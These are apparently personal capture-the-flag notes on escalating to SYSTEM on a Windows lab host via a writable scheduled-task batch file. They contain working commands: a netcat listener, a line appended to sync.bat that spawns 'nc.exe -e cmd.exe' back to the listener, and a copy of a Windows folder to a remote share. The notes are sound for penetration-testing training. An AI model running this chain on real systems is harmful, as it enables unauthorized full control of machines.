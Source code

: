 ## Connect to WRK2
- [[Connect to 10.200.X.22 via RDP]]
- Open a command shell.
- Look at the "C:\Users\laura.wood\Downloads>" directory.
- There's a nc.exe file. (Netcat)
	- If we manage to find some service or application that is running in the machine with administrator or system privileges, we might be able to execute netcat with administrative privileges, gaining an elevated administrative shell.
	- One quick way of escalating privileges inside a machine is through a misconfigured scheduled task, especially when it is using a binary or batch file that we can modify.

## List of tasks
- By using the command schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”,we are able to forward a list of several tasks, to a CSV file, that run with administrative privileges (the /fo csv will print the text in a CSV format).

C:\Users\laura.wood> `schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”`

Based on the output, most of the tasks run from the Windows directory, which normally means that those tasks are well configured. A quick search into the CSV reveals that a certain task runs from the following file (**C:\SYNC\sync.bat**):

![[Privilege Access to CORP Tier 2 - WRK1 and wrk2-20240630151034676.webp]]

## Query for the taskname
Query for the taskname, in order to get more information regarding the schedule task:
C:\Users\laura.wood> `schtasks /query /fo list /tn FULLSYNC /v`

![[Privilege Access to CORP Tier 2 - WRK1 and wrk2-20240630151247545.webp]]

We can check the permissions of the file with the command icacls C:\SYNC\sync.bat and are able to confirm that our user has (F) Full Access to the file.

> FULLSYNC scheduled task runs every 5 minutes.

## Check the permissions of the file "C:\SYNC\sync.bat"

PS C:\Users\laura.wood> `icacls C:\SYNC\sync.bat`
```
Everyone:(F)
BUILTIN\Users:(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)
```

> - Full access on the sync.bat file.

## Set up a listener with the previously found netcat

With this information, we know that we can set up a listener with the previously found netcat executable, and edit the task to connect with the same executable with administrative privileges, receiving an elevated reverse shell:

C:\Users\laura.wood\Downloads> `nc -lnvp 4444`

listening on [any] 4444 ...

## Edit the sync.bat file

Path: C:\SYNC

Add the following code:
`C:\Users\laura.wood\Downloads\nc.exe -e cmd.exe 127.0.0.1 4444`
`copy C:\Windows\Temp \\s3.corp.thereserve.loc\backups\`

> After a couple of minutes (5 at most) you should receive an administrative reverse shell.
## Execute the task to force a reverse shell
If you want to execute the task immediately, run the following command.
`
C:\Users\laura.wood> `schtasks /run /tn FULLSYNC`


> SUCCESS: Attempted to run the scheduled task "FULLSYNC". 

On the first command shell you'll see the following output.

listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54255
Microsoft Windows [Version 10.0.17763.4252]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

## Authenticate the flags on e-citizen

> Flag-4 Administrative access to Corporate Division Tier 2 Infrastructure

[[Flag Submission Process]]

Next step: